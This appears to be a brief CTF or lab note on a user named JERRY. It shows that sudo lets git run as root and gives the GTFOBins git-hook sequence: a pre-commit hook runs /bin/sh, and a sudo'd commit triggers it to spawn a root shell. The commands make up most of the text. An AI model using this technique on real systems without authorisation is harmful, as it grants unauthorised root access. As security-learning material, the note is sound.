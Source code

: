 user JERRY

$ sudo \-l

git is in sudo

TF=$\(mktemp \-d\)
git init "$TF"
echo 'exec /bin/sh 0\<\&2 1\>\&2' \>"$TF/\.git/hooks/pre\-commit\.sample"
mv "$TF/\.git/hooks/pre\-commit\.sample" "$TF/\.git/hooks/pre\-commit"
sudo git \-C "$TF" commit \-\-allow\-empty \-m x

GTFObins git